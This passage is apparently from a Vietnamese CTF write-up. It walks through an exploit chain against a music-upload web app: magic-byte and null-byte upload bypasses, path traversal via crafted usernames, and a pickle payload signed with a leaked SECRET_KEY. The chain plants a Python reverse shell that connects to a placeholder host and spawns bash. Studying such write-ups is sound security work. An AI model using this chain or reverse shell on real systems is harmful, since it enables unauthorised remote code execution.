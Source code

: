 ![Oops](./images/nullbytetrick.jpg)

Còn bypass check thứ hai thì sử dụng magicbyte của `audio/x-wav` (`RIFFxxxxWAVEfmt`) ở đầu file là bypass được.

Lúc đó file type được dự đoán đều là `audio/x-wav`. Do đó sẽ bypass được.

Kết hợp hết những thứ ở trên lại. Trong file exploit của tác giả, quy trình như sau:

0. Setup chuẩn bị cho reverse shell.
1. Lấy `SECRET_KEY`.
2. Login với username là `data:audio` -> tạo thư mục `musics/data:audio`.
3. Login với username là `data:audio/x-wav,` -> tạo thư mục `musics/data:audio/x-wav,`.
4. Login với username là `nyan` -> tạo thư mục `musics/nyan`.
5. Login với `nyan/../` -> tạo thư mục `musics/nyan/../`hay `musics`, vì `musics` đã tồn tại nên sẽ có lỗi ở bước này, tuy nhiên cơ sở dữ liệu được lưu trước khi có lỗi nên tài khoản `nyan/..` vẫn còn.
6. Sử dụng tài khoản `nyan/../` để gửi file với filename là `data:audio/x-wav,/../../__init__.py` -> lưu file `musics/data:audio/x-wav,/../../__init__.py` chỉnh là `musics/__init__.py`. Filename có `data:audio/x-wav` và trong `__init__.py` có chứa magic byte của `data:audio/x-wav` nên sẽ bypass được đoạn check khi upload file.
    ```py
    # file __init__.py

    RIFFxxxxWAVEfmt = 1337  # file signature for `audio/x-wav`
    import socket, subprocess, os
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("HOOK", 2808))
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    p = subprocess.call(["/bin/bash", "-i"])
    ```
7. Sử dụng `SECRET_KEY` gửi `b'Vmusics\n2\x93.'` lên để import `musics` và RCE.

